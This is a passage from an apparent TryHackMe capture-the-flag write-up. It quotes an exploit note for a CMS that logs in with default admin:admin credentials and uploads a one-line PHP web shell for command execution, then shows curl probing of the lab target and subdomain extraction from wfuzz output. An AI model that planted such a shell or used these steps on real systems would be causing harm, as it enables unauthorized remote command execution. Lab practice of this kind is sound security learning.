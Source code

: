 ### Exploit
```html
1- Go to following url. >> http://(HOST)/cms/
2- Default username and password is admin:admin. We must know login credentials.
3- Go to "Filemanager" and press "Upload file" button.
4- Choose your php web shell script and upload it. 
     
PHP Web Shell Code == <?php system($_GET['cmd']); ?>

5- You can find uploaded file there. >> http://(HOST)/media/(FILE-NAME).php
6- We can execute a command now. >> http://(HOST)/media/(FILE-NAME).php?cmd=id
```

# Gettting a Shell as www-data
### Checking /cms/
```console
localhost@localhost:~/Documents/tryhackme/undiscovered$ curl http://dashboard.undiscovered.thm/cms/
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at dashboard.undiscovered.thm Port 80</address>
</body></html
```
We got a 404 error which is not a good sign. But luckily we do have a quite a few subdomains. So lets check if anyone of those has the path /cms/. But it will take quite a few time to do this, so lets automate this.

### Extracting the subdomains from the wfuzz result
```console
localhost@localhost:~/Documents/tryhackme/undiscovered$ cat subdomain.log  | awk -F\" '{print $2}' | grep -v -e '^$' | tee subdomains
manager
dashboard
deliver
newsite
develop
maintenance
network
forms
view
start
play
mailgate
internet
gold
booking
terminal
resources
#www
#mail
```
